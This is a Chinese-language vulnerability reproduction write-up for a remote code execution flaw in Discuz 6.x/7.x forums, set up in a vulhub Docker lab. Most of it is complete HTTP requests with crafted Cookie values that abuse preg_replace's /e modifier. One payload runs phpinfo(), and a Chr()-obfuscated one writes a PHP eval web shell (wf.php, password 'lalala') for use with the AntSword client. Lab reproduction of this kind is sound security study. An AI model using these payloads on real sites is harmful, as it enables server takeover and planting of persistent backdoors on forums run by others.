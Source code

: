 # 0x00 软件介绍
Discuz：一款流行的论坛程序

# 0x01 复现环境
使用环境：vulhub中的环境  
复现版本：无

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

切换到对应目录下  
docker-compose up -d  
启动后，访问[http://172.16.35.128:8080/install/](http://172.16.35.128:8080/install/)来安装discuz，数据库地址填写db，数据库名为discuz，数据库账号密码均为root

# 0x03 利用条件
无

# 0x04 影响版本
Discuz 7.x 6.x

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

安装成功后，直接找一个已存在的帖子，向其发送数据包，将Cookie中的数据改为
```
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo()
```
请求如下
```
GET /viewthread.php?tid=13&extra=page%3D1 HTTP/1.1
Host: 172.16.35.128:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.35.128:8080/forumdisplay.php?fid=2&page=1
Connection: close
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo()
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
返回如下图  
![image](./0.png)  

将Cookie中的内容变为  
```
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(119).Chr(102).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(108).Chr(97).Chr(108).Chr(97).Chr(108).Chr(97).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```
发送的请求如下  
```
GET /viewthread.php?tid=13&extra=page%3D1 HTTP/1.1
Host: 172.16.35.128:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.35.128:8080/forumdisplay.php?fid=2&page=1
Connection: close
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(119).Chr(102).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(108).Chr(97).Chr(108).Chr(97).Chr(108).Chr(97).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
然后可使用蚁剑连接，地址http://172.16.35.128:8080/wf.php 密码lalala

# 0x06 踩坑记录
无

# 0x07 参考链接
无
